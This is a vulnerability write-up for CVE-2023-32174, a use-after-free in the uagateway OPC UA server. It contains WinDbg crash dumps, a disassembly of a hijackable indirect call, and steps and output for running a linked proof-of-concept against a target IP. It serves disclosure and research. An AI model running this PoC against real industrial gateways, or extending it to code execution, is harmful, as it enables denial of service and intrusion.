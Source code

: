 # CVE-2023-32174: NodeManagerOpcUa Use-After-Free Remote Code Execution Vulnerability

<p align='center'>
<img src='../pics/CVE-2023-32174.png'>
</p>

## High-level overview
The vulnerability is a use-after-free that gets triggered when two threads are racing against each other and doing an adding & remove operation on the address space.

<p align='center'>
<img src='../pics/CVE-2023-32174.gif'>
</p>

## Root Cause Analysis

I have found this bug by intuition so I haven't really pinpointed in details where the issue is. It looks like to me there is an issue related to locking somewhere and it results in a UAF condition. When running the PoC, you end up seeing different type of crashes and some might actually look not super interesting as they appear as NULL pointer dereference like the below:
```
0:053> g
(239c.174c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
uagateway+0x14eea5:
0054eea5 8b4e08          mov     ecx,dword ptr [esi+8] ds:002b:00000028=????????
```

But you should also witness other ones looking like:
```
0:054> g
(1bec.754): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
uagateway+0x144cd1:
00544cd1 8b4e5c          mov     ecx,dword ptr [esi+5Ch] ds:002b:289b6e0c=????????
```

The one that I wanted to exploit is the below one, where the program is about to invoke a virtual method on the UAF'd object which in theory you could reclaim and hijack control flow through the indirect call:
```
0:035> g
(a5c.a74): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
uagateway+0x4556dc:
008556dc 8b16            mov     edx,dword ptr [esi]  ds:002b:21b70fdc=????????

0:038:x86> u .
uagateway+0x4556dc:
008556dc 8b16            mov     edx,dword ptr [esi]
008556de 50              push    eax
008556df 8b4244          mov     eax,dword ptr [edx+44h]
008556e2 8bce            mov     ecx,esi
008556e4 ffd0            call    eax
```

## PoC
See [PoC/postauthuaf.cc](PoC/postauthuaf.cc). To compile the project yourself, just load up the `postauth-uaf.sln` solution in Visual Studio. I've also included a release [x86](binaries/x86/postauth-uaf.exe)/[x64](./binaries/x64/postauth-uaf.exe) binaries with PDBs if you don't want to compile it yourself. I haven't ported the socket part to Linux, so you should throw from a Windows machine.

- Turn on PageHeap for `uagateway.exe`
- Attach WinDbg with `windbg -pn uagateway.exe`
- Run the PoC:
```
> postauth-uaf.exe 192.168.1.137
Throwing against 192.168.1.137:48050..
Establishing a connection..
Establishing a connection..
Sending hello..
Sending hello..
Received acknowledge message:
Received acknowledge message:
  Acknowledge_t
    Version: Uint32_t(0)
    ReceiveBufferSize: Uint32_t(8192)
    SendBufferSize: Uint32_t(8192)
    MaxMessageSize: Uint32_t(2097152)
    MaxChunkCount: Uint32_t(256)
Sending open secure channel request..
  Acknowledge_t
    Version: Uint32_t(0)
    ReceiveBufferSize: Uint32_t(8192)
    SendBufferSize: Uint32_t(8192)
    MaxMessageSize: Uint32_t(2097152)
    MaxChunkCount: Uint32_t(256)
Sending open secure channel request..
Received open secure channel response..
Sending get endpoints request..
Received open secure channel response..
Sending get endpoints request..
Received get endpoints response..
Sending create session request..
Received get endpoints response..
Sending create session request..
Received create session response..
Sending activation session request..
Received create session response..
Sending activation session request..
Received activate session response..
Received activate session response..
```
- `uagateway.exe` should crash; here's a crash example (the UAF can manifest in other ways as well):
```
0:056> g
(f20.12a4): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
uagateway+0x12466c:
0052466c 8b8ea0000000    mov     ecx,dword ptr [esi+0A0h] ds:002b:20de0f68=????????
```
